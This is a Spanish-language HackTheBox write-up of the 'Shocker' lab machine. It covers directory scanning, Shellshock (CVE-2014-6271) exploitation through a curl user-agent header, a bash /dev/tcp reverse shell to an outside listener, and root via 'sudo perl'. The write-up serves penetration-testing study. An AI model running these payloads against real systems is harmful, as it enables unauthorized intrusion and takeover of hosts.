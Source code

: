 ```yaml
---
layout: single
title: Writeup HTB - Maquina Shocker
comments: true
excerpt: "La maquina Shocker es una maquina linux - Easy, comenzamos escanendo directorios de una pagina web, encontramos el directorio cgi-bin donde logramos encontrar un script llamado user.sh, dicho script puede ser explotable a la vulnerabilidad ShellShok que nos permite ejecutar comandos como el usuario Shelly. Por ultimo logramos escalar privilegios como root abusando de los permisos de sudo con el binario perl."
date: 2022-02-07
classes: wide
header:
  teaser: /assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - OSCP  
  - Hacking
  - Easy
  - dirsearch 
  - curl 
  - CVE-2014-6271
  - Shellshock
  - sudo 
  - sudoers
---
```


# HTB - Shocker
<p align="center">
<img src="/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled.png">
</p>

## Resumen
<div style="text-align: justify">
La maquina Shocker es una maquina linux - Easy, comenzamos escanendo directorios de una pagina web, encontramos el directorio cgi-bin donde logramos encontrar un script llamado user.sh, dicho script puede ser explotable a la vulnerabilidad ShellShok que nos permite ejecutar comandos como el usuario Shelly. Por ultimo logramos escalar privilegios como root abusando de los permisos de sudo con el binario perl.
</div>

## Scan Nmap

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%201.png)

## Pagina Web - Port 80

lo primero que hacemos es revisar la pagina web de esta maquina, pero solo encontramos un imagen divertida con un mensaje de Don’t Bug Me!

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%202.png)

realizamos un escaneo de directorios y solo encontramos el directorio cgi-bin, dicho directorio se utiliza para alojar programas que son utilizados para ejecutar tareas en el servidor.

```bash
Shocker # ❯ dirsearch -u http://10.129.1.175 -w /usr/share/wordlists/dirb/common.txt -f -e php,html,js,txt,save,bak -t 200
```

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%203.png)

Por lo tanto hagamos un escaneo a dicho directorio con las siguientes extensiones

```bash
Shocker # ❯ dirsearch -u http://10.129.1.175/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -f -e sh,cgi,pl -t 200
```

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%204.png)

probamos que arroja dicho script user.sh

```bash
Shocker # ❯ curl -s http://10.129.1.175/cgi-bin/user.sh                  
Content-Type: text/plain

Just an uptime test script

 11:42:43 up  2:25,  0 users,  load average: 0.00, 0.00, 0.00
```

### Explotacion vulnerabilidad Shellshock

Primero vamos a aclarar que el nombre oficial de esta vulnerabilidad es [GNU Bash Remote Code Execution Vulnerability](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271) (CVE-2014-6271) y está considerada como **grave**, tal y como sucedió con [Heartbleed](https://www.welivesecurity.com/la-es/2014/04/09/5-cosas-debes-saber-sobre-heartbleed/), ya que permitiría la **ejecución remota de código** y así obtener el control de un ordenador.

El problema con esta vulnerabilidad se viene produciendo porque Bash permite declarar funciones (algo que tampoco es extraño y entra dentro de lo normal), pero estas **no se validan de forma correcta** cuando se almacenan en una variable. En otras palabras: Bash se pasa de la raya, extralimita sus funciones y sigue ejecutando código a pesar de haber finalizado de procesar la función.

Asi pues explotamos dicha vulnerabilidad de la siguiente manera

```bash
curl -H "user-agent: () { :; }; echo;echo; /bin/bash -c 'id'" http://10.129.1.175/cgi-bin/user.sh
```

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%205.png)

### Reverse shell - User shelly

para obtener una reverse shell podemos un puerto 443 en escucha con netcat

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%206.png)

ejecutamos este payload

```bash
Shocker # ❯ curl -H "user-agent: () { :; }; echo;echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'" http://10.129.1.175/cgi-bin/user.sh
```

y logramos conectarnos a una reverse shell con el usuario shelly

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%207.png)

## Escalacion de privilegios - User root

si revisamos los permisos de sudo

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
```

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%208.png)

logramos escalar privilegios como root de la siguiente manera

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

![Untitled](/assets/images/2022-02-07-writeup-maquina-htb-shocker/Untitled%209.png)